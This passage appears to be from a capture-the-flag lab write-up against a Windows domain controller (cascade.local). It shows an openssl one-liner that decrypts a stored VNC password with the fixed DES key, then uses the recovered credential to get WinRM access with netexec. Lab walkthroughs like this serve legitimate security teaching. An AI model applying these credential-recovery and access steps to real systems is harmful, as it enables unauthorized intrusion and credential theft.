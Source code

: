 In `data` there are multiple interesting files.

```shell
$ ls                                                                                                   
 ArkAdRecycleBin.log   Meeting_Notes_June_2018.html   users  'VNC Install.reg'
```

![](assets/Pasted%20image%2020250510131428.png)

Steve says that the user `TempAdmin` has the same password as the normal admin.

On the other hand, we have a password in the `VNC Install.reg` file.

![](assets/Pasted%20image%2020250510132601.png)

## Initial Access

Searching, there is a repo [PasswordDecrypts](https://github.com/frizb/PasswordDecrypts) that shows how to decrypt VNC passwords on Linux.

```shell
$ echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv 
 
00000000  73 54 33 33 33 76 65 32                           |sT333ve2|
```

The password is valid for `s.smith`.

![](assets/Pasted%20image%2020250510133004.png)

And has `pssession`.

```shell
$ nxc winrm 10.10.10.182 -u 's.smith' -p sT333ve2                  
WINRM       10.10.10.182    5985   CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 (name:CASC-DC1) (domain:cascade.local)
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\s.smith:sT333ve2 (Pwn3d!)
```
